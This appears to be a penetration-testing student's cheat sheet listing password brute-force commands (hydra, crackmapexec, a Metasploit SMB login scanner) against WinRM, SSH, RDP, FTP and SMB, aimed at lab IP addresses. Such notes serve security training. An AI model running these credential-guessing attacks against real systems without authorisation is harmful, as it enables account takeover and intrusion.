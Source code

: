 # Protocols
## WinRM
- `crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>`
- `crackmapexec winrm 10.129.42.197 -u user.list -p password.list`

## SSH
- `hydra -L user.list -P password.list ssh://10.129.42.197`

## RDP
- `hydra -L user.list -P password.list rdp://10.129.42.197

## hydra:
- `hydra -l user -P passlist.txt ftp://192.168.0.1`
- `hydra -L users.txt -p password123 ftp://192.168.0.1`
- `hydra -L user.list -P password.list rdp://10.129.42.197`
   - `-l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE`
   - `-p PASS  or -P FILE  try password PASS, or load several passwords from FILE`


## CrackMapExec
- `crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>`

## SMB
- `hydra -L user.list -P password.list smb://10.129.42.197``

- `use auxiliary/scanner/smb/smb_login`
